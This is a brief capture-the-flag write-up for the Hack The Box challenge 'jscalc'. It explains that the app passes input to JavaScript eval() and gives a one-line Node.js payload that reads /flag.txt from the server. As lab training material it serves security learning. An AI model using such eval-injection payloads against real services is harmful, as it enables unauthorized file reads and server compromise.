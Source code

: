 # jscalc
> Challenge: [jscalc](https://app.hackthebox.com/challenges/jscalc)

## Summary
**XSS to RCE**
> Using eval() to do RCE

## Solution
Realizing that the input is evaluated by eval(), put this payload into the input:
```js
require("fs").readFileSync('/flag.txt').toString('utf-8')
```
![img.png](img.png)